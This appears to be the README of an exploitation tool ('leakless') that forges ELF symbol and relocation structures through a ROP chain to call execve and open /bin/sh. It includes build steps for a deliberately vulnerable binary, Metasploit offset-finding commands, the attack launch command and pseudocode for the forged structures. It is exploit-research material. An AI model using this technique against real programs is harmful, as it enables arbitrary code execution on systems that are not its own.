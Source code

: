## Plano de estudo, analisar e entender o algoritmo desenvolvido

How to test
===========

1. Build vuln.c

        gcc -fno-stack-protector vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

        ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
        dmesg | tail
        ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

        (python ./exploit.py /tmp/vuln --offset $OFFSET; echo ls) | /tmp/vuln

You can also just dump to a JSON file all the necessary information to
perform the exploit:

    python ./exploit.py /tmp/vuln --json

For debugging information, use the `--debug` parameter. For further
information on the parameters use the `--help` parameter.

The CMake build system will compile `vuln.c` for x86 and x86-64 with
different protections enabled.  There's also a CTest testsuite which
has been tested using the `ld.gold` linker and GCC 4.8.4. Different
toolchains might require minor adjustments.

To launch it just run:

    mkdir leakless-build
    cd leakless-build
    cmake ../leakless
    make
    make test

The build system has also the `length`, `json` and `ropl` targets
which, respectively, produce the length of the generated exploit for
each supported configuration and the JSON and ropl version of the
exploit.

    make length
    make json
    make ropl

Basic idea
==========

    char *buffer = .bss;
    char *new_stack = buffer + 1024;
    int *rubbish = new_stack + 4;

    strcpy(buffer, "execve");
    *((int *) buffer) = 'exec';
    *(((int *) buffer) + 1) = 've\0\0';
    char *name = buffer;
    buffer += strlen(buffer) + 1;

    Elf32_Sym *symbol = (Elf32_Sym *) buffer;
    symbol->st_name = name - .dynstr;
    symbol->st_value = 0;
    symbol->st_info = 0;
    symbol->st_other = 0;
    symbol->st_shndx = 0;
    buffer += sizeof(*symbol);

    Elf32_Rel *reloc = (Elf32_Rel *) buffer;
    reloc->r_offset = rubbish++;
    reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
    buffer += sizeof(reloc):

    pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));

Helper classes
==============

* `MemoryArea`: data structure representing a part of memory, with its
  start address, its size, a reference to what its relative to
  (e.g. the `MemoryArea` where we'll write the relocation structure
  will be relative to the `.rela.dyn` section). `MemoryArea` also
  takes care of computing the appropriate index (`MemoryArea.index`)
  relative to the specified part of memory.
* `Buffer`: data structure holding information about a buffer where we
  want to write to things. Typically this will represent to
  `.bss`. Buffer also keeps track of what part of it has already been
  allocated (`Buffer.current` points to the next free location) and
  allows to allocate new `MemoryArea`s with the appropriate
  alignement.

`Exploit`-derived classes
=========================

* `Exploit`: the base class, contains all the architecture- and
  platform-independent parts of the exploit. It keeps the list of the
  gadgets, it takes care of collecting all the interesting information
  about the program from the ELF file and abstracting some utility and
  memory-related functions (e.g. `write_pointer` and `write_string`)
  which rely on the abstract `do_writemem` function (which is
  platform- and program-dependent). Finally, in `jump_to`, contains
  the core logic for setting up the necessary data structures in the
  buffers.
* `CommonGadgetsExploit`: inherits from `Exploit` and introduces
  architecture-dependent parts, in particular gadgets and
  function-invocation logic.
* `ExecveExploit`: very simple class implementing the logic to launch
  an `execve`, so write a `NULL` pointer, a `"/bin/sh\0"` and
  explicitly look for `execve`. Finally invoke it.
* `RawDumperExploit`: exploit useful to just collect the information
  necessary to perform the attack without actually generating the ROP
  chain. `RawDumperExploit.jump_to` will return as first result an
  array of tuples `(address, what_to_write_there)`, which, for
  instance, are used to implement the `--json` parameter.
